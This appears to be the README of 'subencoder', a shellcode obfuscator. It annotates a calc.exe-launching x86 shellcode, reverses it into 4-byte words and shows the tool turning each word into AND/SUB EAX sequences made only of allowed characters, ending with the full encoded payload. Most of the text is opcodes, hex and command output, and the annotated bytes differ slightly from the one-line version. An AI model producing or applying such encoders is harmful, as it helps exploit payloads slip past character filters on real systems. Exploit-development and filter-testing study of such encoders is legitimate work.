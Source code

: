 # subencoder  
subencoder - shellcode obfuscater  
  
Calc.exe Shellcode:  
  
"\x33\xc0".....................XOR EAX,EAX | Zero out EAX register<br/>
"\x50".........................PUSH EAX | Push EAX to have null-byte padding for "calc.exe"<br/>
"\x68\x2E\x65\x78\x65".........PUSH ".exe"  <br/>
"\x68\x63\x61\x6C\x63".........PUSH "calc" <br/>
"\x8B\xC4".....................MOV EAX,ESP | Put a pointer to the ASCII string in EAX <br/>
"\x6A\x01".....................PUSH 1 | Push uCmdShow parameter to the stack <br/>
"\x50".........................PUSH EAX | Push the pointer to lpCmdLine to the stack <br/>
"\x85\x6a\xe9\x77".............MOV EBX, 77e96a85 | Move the pointer to WinExec() into EBX <br/>
"\xFF\xD3".....................CALL EBX | Call WinExec()<br/>

In one line:  
\x33\xc0\x50\x68\x2E\x65\x78\x65\x68\x63\x61\x6C\x63\x8B\xC4\x6A\x01\x50\xBB\x85\x6a\xe9\x77\xFF\xD3  

Group it int groups of 4 bytes  
33c05068  
2E657865  
6863616C  
638BC46A  
0150BB85  
6AE977FF  
D3  

Revert it and 0 pad:  
D3		    -> 000000D3  
6AE977FF  -> FF77E96A  
0150BB85  -> 8BBB5001  
638BC46A  -> 6AC48B63  
6863616C  -> 6C616368  
2E657865  -> 6578652E  
33c05068  -> 6850C033  
  
ShellCode 4 byte reversed in one line:  
000000D3FF77E96A8BBB50016AC48B636C6163686578652E6850C033  
  
Allowed Char File (2-digit hex):  
02030405060708090b0c0e0f101112131415161718191a1b1c1d1e1f202122232425262728292a2b2c2d2e303132333435363738393b3c3d3e4142434445464748494a4b4c4d4e4f505152535455565758595a5b5c5d5e5f606162636465666768696a6b6c6d6e6f707172737475767778797a7b7c7d7e7f  

Generate shellcode:  
$ ./subencoder shellcode.txt allowedchars.txt  
Address: 0x000000D3  
-------------------  
AND EAX,554E4D4A  
AND EAX,2A313235  
SUB EAX, 0x74747414  
SUB EAX, 0x75757503  
Result:   
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x14\x74\x74\x74\x2D\x03\x75\x75\x75\x50  

Address: 0xFF77E96A  
-------------------  
AND EAX,554E4D4A  
AND EAX,2A313235  
SUB EAX, 0x04040404  
SUB EAX, 0x7e280428  
SUB EAX, 0x7e5c0e6a  
Result:   
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x04\x04\x04\x04\x2D\x28\x04\x28\x7e\x2D\x6a\x0e\x5c\x7e\x50  

Address: 0x8BBB5001  
-------------------  
AND EAX,554E4D4A  
AND EAX,2A313235  
SUB EAX, 0x48747474  
SUB EAX, 0x0f740f74  
SUB EAX, 0x1c5c2c17  
Result:   
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x74\x74\x74\x48\x2D\x74\x0f\x74\x0f\x2D\x17\x2c\x5c\x1c\x50  
  
Address: 0x6AC48B63  
-------------------  
AND EAX,554E4D4A  
AND EAX,2A313235  
SUB EAX, 0x3e0e3e3e  
SUB EAX, 0x572d365f  
Result:   
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x3e\x3e\x0e\x3e\x2D\x5f\x36\x2d\x57\x50  

Address: 0x6C616368  
-------------------  
AND EAX,554E4D4A  
AND EAX,2A313235  
SUB EAX, 0x31313131  
SUB EAX, 0x626d6b67  
Result:  
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x31\x31\x31\x31\x2D\x67\x6b\x6d\x62\x50  

Address: 0x6578652E  
-------------------  
AND EAX,554E4D4A  
AND EAX,2A313235  
SUB EAX, 0x2d2d2d79  
SUB EAX, 0x6d5a6d59  
Result:  
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x79\x2d\x2d\x2d\x2D\x59\x6d\x5a\x6d\x50  

Address: 0x6850C033  
-------------------  
AND EAX,554E4D4A  
AND EAX,2A313235  
SUB EAX, 0x204b206f  
SUB EAX, 0x77641f5e  
Result:  
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x6f\x20\x4b\x20\x2D\x5e\x1f\x64\x77\x50  

$ cat output.txt  
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x14\x74\x74\x74\x2D\x03\x75\x75\x75\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x04\x04\x04\x04\x2D\x28\x04\x28\x7e\x2D\x6a\x0e\x5c\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x74\x74\x74\x48\x2D\x74\x0f\x74\x0f\x2D\x17\x2c\x5c\x1c\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x3e\x3e\x0e\x3e\x2D\x5f\x36\x2d\x57\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x31\x31\x31\x31\x2D\x67\x6b\x6d\x62\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x79\x2d\x2d\x2d\x2D\x59\x6d\x5a\x6d\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x6f\x20\x4b\x20\x2D\x5e\x1f\x64\x77\x50  


